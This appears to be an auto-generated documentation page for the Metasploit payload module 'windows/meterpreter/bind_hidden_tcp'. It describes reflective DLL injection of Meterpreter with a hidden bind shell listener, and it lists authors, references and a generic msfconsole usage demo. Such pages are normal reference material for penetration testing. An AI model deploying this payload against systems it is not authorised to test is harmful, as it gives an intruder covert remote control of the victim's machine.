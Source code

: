 ## Windows Meterpreter (Reflective Injection), Hidden Bind TCP Stager

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Listen for a connection from a 
hidden port and spawn a command shell to the allowed host.


## Module Name
payload/windows/meterpreter/bind_hidden_tcp

## Authors
* skape
* sf
* OJ Reeves
* hdm
* Borja Merino <bmerinofe[at]gmail.com>


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/bind_hidden_tcp
msf payload(bind_hidden_tcp) > show targets
   ... a list of targets ...
msf payload(bind_hidden_tcp) > set TARGET <target-id>
msf payload(bind_hidden_tcp) > show options
   ... show and set options ...
msf payload(bind_hidden_tcp) > run
```
    
    